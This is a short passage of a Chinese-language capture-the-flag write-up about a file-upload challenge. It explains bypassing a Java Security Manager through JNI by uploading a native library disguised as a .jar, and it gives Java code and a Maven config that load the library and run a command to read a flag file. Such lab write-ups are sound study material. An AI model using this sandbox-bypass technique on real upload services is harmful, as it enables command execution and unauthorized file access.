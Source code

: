 
### 简单的文件上传 {#简单的文件上传}

上传一个执行命令的 jar 包并执行，会得到以下异常信息：

```nil
Exception in thread "main" java.security.AccessControlException: access denied ("java.io.FilePermission" "<>" "execute")
at java.security.AccessControlContext.checkPermission(AccessControlContext.java:472)
at java.security.AccessController.checkPermission(AccessController.java:884)
at java.lang.SecurityManager.checkPermission(SecurityManager.java:549)
at java.lang.SecurityManager.checkExec(SecurityManager.java:799)
at java.lang.ProcessBuilder.start(ProcessBuilder.java:1018)
at java.lang.Runtime.exec(Runtime.java:620)
at java.lang.Runtime.exec(Runtime.java:450)
at java.lang.Runtime.exec(Runtime.java:347)
at org.example.Main.main(Main.java:5)
```

那么显然这题的考点是绕过 Security Manager，经过尝试后可以通过 JNI 来绕过，细节参考：<https://www.anquanke.com/post/id/151398#h3-8>

题目还有两个需要处理的地方：

1.  只能上传 jar 文件，所以要将共享链接库的后缀改一下，并不影响使用
2.  得知道上传目录的位置是 /var/www/html/uploads

将以下两个 Java 文件编译成 jar 包

```java
package org.example;

public class Main {
    public static void main(String[] args) throws Exception {
        NativeCall.exec("cat /secretFlag000.txt");
    }
}
```

```java
package org.example;

public class NativeCall {
    static {
        System.load("/var/www/html/uploads/libNativeCall.jar");
    }
    public native static String exec(String cmd);
}
```

我是直接使用 maven 打包，所以要在 pom.xml 中添加配置

```xml
<build>
    <plugins>
        <plugin>
            <!-- Build an executable JAR -->
            <groupId>org.apache.maven.plugins</groupId>
            <artifactId>maven-jar-plugin</artifactId>
            <configuration>
                <archive>
                    <manifest>
                        <mainClass>org.example.Main</mainClass>
                    </manifest>
                </archive>
            </configuration>
        </plugin>
    </plugins>
</build>
```
